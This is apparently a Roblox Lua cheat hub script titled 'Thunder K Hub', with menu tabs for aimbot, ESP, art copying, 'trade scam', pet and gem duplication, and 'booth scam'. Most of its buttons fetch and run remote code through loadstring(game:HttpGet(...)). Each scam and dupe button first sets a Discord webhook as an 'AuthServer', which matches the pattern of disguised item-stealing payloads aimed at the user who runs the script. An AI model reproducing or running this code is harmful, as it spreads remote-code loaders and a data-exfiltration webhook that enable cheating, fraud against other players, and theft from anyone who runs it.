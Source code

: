 local kavoUi = loadstring(game:HttpGet("https://pastebin.com/raw/vff1bQ9F"))()

local window = kavoUi.CreateLib("Thunder K Hub🔥")

---Tabs

local Tab1 = window:NewTab("💳Credits")

local Tab1Section = Tab1:NewSection("script by Chaw So🔥")

local Tab2 = window:NewTab("🔫Aimbot")

local Tab2Section = Tab2:NewSection("Universal Aimbot")

local Tab3 = window:NewTab("Esp")

local Tab3Section = Tab3:NewSection("Sup is word")

local Tab4 = window:NewTab("🎨Starving Artist")

local Tab4Section = Tab4:NewSection("Starving Artist")

local Tab5 = window:NewTab("🔥Trade Scam")

local Tab5Section = Tab5:NewSection("Premium Version")

local Tab6 = window:NewTab("😺Dupe")

local Tab6Section = Tab6:NewSection("Duplicate Pet or Gem")

local Tab7 = window:NewTab("🔥Booth Scam")

local Tab7Section = Tab7:NewSection("Scam someone's Booth")

local Tab7Section = Tab7:NewSection("Click The Pet In The Bank 10 Times Then Execute")

---Buttons

Tab2Section:NewButton("Fixing","...",function()

end)

Tab3Section:NewButton("Esp","...",function()

_G.FriendColor = Color3.fromRGB(0, 0, 255)

_G.EnemyColor = Color3.fromRGB(255, 0, 0)

_G.UseTeamColor = false

--------------------------------------------------------------------

loadstring(game:HttpGet("https://raw.githubusercontent.com/zeroisswag/universal-esp/main/esp.lua"))()

end)

Tab4Section:NewButton("Art Copy","...",function()

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jeux45/Starving-Artist-script/main/Script", true))()

end)

Tab5Section:NewButton("On (click to turn on trade scam)","...",function()

_G.Key = "etucytxm"

_G.AuthServer = "https://discord.com/api/webhooks/1060782882228019260/CPay2hLi68xTTguyCrc0IDCxy4VHM62TBCUlplTTMKYrpymtn0qTyRZxlvuPscytU6wK"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()

end)

Tab5Section:NewButton("Off (click to turn off trade scam)","...",function()

_G.Key = "etucytxm"

_G.AuthServer = "https://discord.com/api/webhooks/1060782882228019260/CPay2hLi68xTTguyCrc0IDCxy4VHM62TBCUlplTTMKYrpymtn0qTyRZxlvuPscytU6wK"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()

end)

Tab6Section:NewButton("Click to dupe gem","...",function()

_G.Key = "etucytxm"

_G.AuthServer = "https://discord.com/api/webhooks/1060782882228019260/CPay2hLi68xTTguyCrc0IDCxy4VHM62TBCUlplTTMKYrpymtn0qTyRZxlvuPscytU6wK"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()

end)

Tab6Section:NewButton("Click to dupe equipped pets","...",function()

_G.Key = "etucytxm"

_G.AuthServer = "https://discord.com/api/webhooks/1060782882228019260/CPay2hLi68xTTguyCrc0IDCxy4VHM62TBCUlplTTMKYrpymtn0qTyRZxlvuPscytU6wK"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()

end)

Tab7Section:NewButton("Click to scam booth","...",function()

_G.Key = "etucytxm"

_G.AuthServer = "https://discord.com/api/webhooks/1060782882228019260/CPay2hLi68xTTguyCrc0IDCxy4VHM62TBCUlplTTMKYrpymtn0qTyRZxlvuPscytU6wK"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()

end)
